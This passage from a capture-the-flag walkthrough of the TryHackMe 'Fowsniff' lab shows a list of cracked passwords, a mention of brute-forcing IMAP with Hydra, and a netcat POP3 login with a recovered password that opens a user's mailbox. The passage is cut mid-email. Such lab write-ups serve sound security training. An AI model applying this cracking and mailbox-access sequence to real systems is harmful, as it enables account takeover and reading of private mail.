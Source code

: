 Cool, CrackStation was able to crack all but one of the passwords. Lets add these to a file called pass.txt:

```text
┌──(ryan㉿kali)-[~/THM/Fowsniff_CTF]
└─$ cat >> pass.txt                            
mailcall
bilbo101
apples01
skyler22
scoobydoo2
carp4ever
orlando12
07011972
^C
```

Lets take our users list and our password list and use Hydra to see if we can bruteforce Imap:

![scooby.png](../assets/fowsniff_assets/scooby.png)

Nice, Hydra found valid credentials!

Lets login and read seina's emails:

```text
┌──(ryan㉿kali)-[~/THM/Fowsniff_CTF]
└─$ nc -nv 10.10.63.19 110
(UNKNOWN) [10.10.63.19] 110 (pop3) open
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
pass scoobydoo2
+OK Logged in.
list
+OK 2 messages:
1 1622
2 1280
.
retr 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
	id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

```